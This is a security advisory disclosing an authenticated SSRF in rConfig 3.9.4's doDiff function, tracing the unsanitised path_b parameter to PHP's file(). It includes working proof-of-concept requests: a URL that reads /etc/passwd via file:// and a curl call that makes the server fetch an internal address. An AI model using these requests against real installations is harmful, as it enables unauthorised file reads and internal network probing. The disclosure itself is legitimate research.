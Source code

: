 # SSRF vulnerability in `doDiff` Function of `classes/compareClass.php` File (rConfig 3.9.4 version)

## 0x01 Affected version

vendor: http://www.rconfig.com/

version: 3.9.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `doDiff` function of rConfig 3.9.4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `path_b` parameter. We should note that the vulnerability requires authentication to trigger.



The vulnerable code is located in the `doDiff()` function in the `classes/compareClass.php` file. Because the file `www/lib/crud/configcompare.crud.php` does not perform sufficient checksumming on the `path_b` parameter, the taint is introduced from the `$url` variable into the tainted function `file` at the file `classes/compareClass.php`, and after the `file` function is executed it sends a request to the URL specified by the `path_b` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```PHP
<?php
// www/lib/crud/configcompare.crud.php
$path_a = stripslashes(str_replace('"', "", $_GET['path_a']));
$path_b = stripslashes(str_replace('"', "", $_GET['path_b']));
$linepadding = $_GET['linepadding'];
...
$diff = new diff;
if ($linepadding >= 1 && $linepadding <= 99) { //if linepadding var is number and is between 1 and 99
    $text = $diff->inline($path_a, $path_b, $linepadding);
} else {
    $text = $diff->inline($path_a, $path_b);
}
...

// classes/compareClass.php
function inline($old, $new, $linepadding = null) {
		...
		$diff = $this->diffWrap($old, $new);
		...
}

// classes/compareClass.php
function diffWrap($old, $new) {       
    $this->diff = $this->doDiff($old, $new);
		...
}

// classes/compareClass.php
function doDiff($old, $new) {
    if (!is_array($old))
        $old = file($old);
    if (!is_array($new))
        $new = file($new);
		...
}
```

Because the `path_b` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php?path_a=/tmp/flag&path_b=file:///etc/passwd
```



This vulnerability can lead to arbitrary file reads, for example if we use the `file://`protocol to read the `/etc/passwd` file



![image-20230721194523465](./assets/image-20230721194523465.png)



This vulnerability could also allow an attacker to make requests for arbitrary resources.

![image-20230721194626317](./assets/image-20230721194626317.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i http://172.16.119.147/rconfig/www/lib/crud/configcompare.crud.php?path_a=/tmp/flag&path_b=http://172.16.119.1/flag678
```



## 0x03 Acknowledgement

z3

